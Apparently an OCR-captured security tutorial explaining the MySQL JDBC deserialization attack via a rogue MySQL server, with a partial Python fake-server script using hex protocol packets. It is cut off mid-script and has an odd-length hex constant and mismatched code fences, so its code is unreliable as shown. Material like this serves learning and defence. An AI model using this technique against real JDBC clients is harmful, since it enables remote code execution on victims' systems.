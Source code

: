 # Java Security Learning—MySQL JDBC Deserialization Vulnerability

Author: H3rmesk1t

Data: 2022.03.21

# JDBC Introduction
[Java Database Connectivity](https://en.wikipedia.org/wiki/Java_Database_Connectivity) (JDBC) is an application programming interface (API) for the programming language Java, which defines how a client may access a database. It is a Java-based data access technology used for Java database connectivity. It is part of the Java Standard Edition platform, from Oracle Corporation. It provides methods to query and update data in a database, and is oriented towards relational databases. A JDBC-to-ODBC bridge enables connections to any ODBC-accessible data source in the Java virtual machine (JVM) host environment.

```java
jdbc://driver://host:port/database?Configuration name1=Configuration Value1&Configuration name2=Configuration Value2
```

# Vulnerability Principle
`BlackHat Europe 2019` topic [New Exploit Technique In Java Deserialization Attack](https://www.blackhat.com/eu-19/briefings/schedule/index.html#new-exploit-technique-in-java-deserialization-attack-17321) mentioned that when an attacker can control the `JDBC` connection setting item, then he can perform a deserialization attack of `ObjectInputStream.readObject` by setting it to a malicious `MySQL` server to perform a deserialization attack of `ObjectInputStream.readObject` thus `RCE`.

Specifically, when connecting to the MySQL server through JDBC, there will be several built-in SQL query statements to be executed. The result sets of two queries will be called ObjectInputStream.readObject for deserialization when the `MySQL` client is processed. If the attacker sets a malicious `MySQL` server to control the result sets of these two queries, and the attacker can control the `JDBC` connection setting item, then the `MySQL JDBC` client deserialization vulnerability can be triggered.

Two query statements that can be used:

````sql
SHOW SESSION STATUS
SHOW COLLATION
```

# Vulnerability reappears
Malicious MySQL server construction can be used as reference:
 - [MySQL Fake Server](https://github.com/fnmsd/MySQL_Fake_Server).
 - [Rogue Mysql Server](https://github.com/rmb122/rogue_mysql_server).

Or directly use the library that comes with `Python` to build it:

```python
# coding=utf-8
import socket
import binascii
import os

greeting_data="4a0000000a352e372e313900080000000463b452623342c2d00ffff7080200ff811500000000000000000000000000000000000000000000000000000000000000000032851553e5c23502c51366a006d7973716c5f6e61746976655f706173776f726400"
response_ok_data="07000002000000020000000"

def receive_data(conn):
    data = conn.recv(1024)
    print("[*] Receiveing ​​the package : {}".format(data))
````